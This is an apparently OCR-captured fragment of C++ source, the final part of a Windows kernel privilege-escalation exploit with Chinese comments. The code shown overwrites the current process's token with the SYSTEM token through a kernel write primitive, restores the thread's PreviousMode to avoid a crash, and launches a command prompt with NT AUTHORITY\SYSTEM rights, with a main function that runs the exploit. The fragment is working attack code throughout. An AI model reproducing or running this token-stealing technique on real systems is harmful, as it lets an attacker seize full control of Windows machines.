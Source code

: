 ``````cpp
    Write64(Curproc + EPROCESS_TOKEN_OFFSET, Sysproc + EPROCESS_TOKEN_OFFSET, 0x8);

    //
    // 恢复KTHREAD->PreviousMode为UserMode
    // 如不恢复,系统可能因为特权检查异常而崩溃
    //
    Write64(Curthread + KTHREAD_PREVIOUS_MODE_OFFSET, &mode, 0x1);

    //
    // 启动具有"NT AUTHORITY\SYSTEM"权限的命令提示符
    // 此时当前进程已拥有System权限
    //
    system("cmd.exe");

    return STATUS_SUCCESS;
}

/**
 * @brief 主函数
 * 
 * @return int 程序退出状态码
 */
int main()
{
    NTSTATUS status = 0;
    status = Exploit();  // 执行漏洞利用过程

    return status;
}

``````

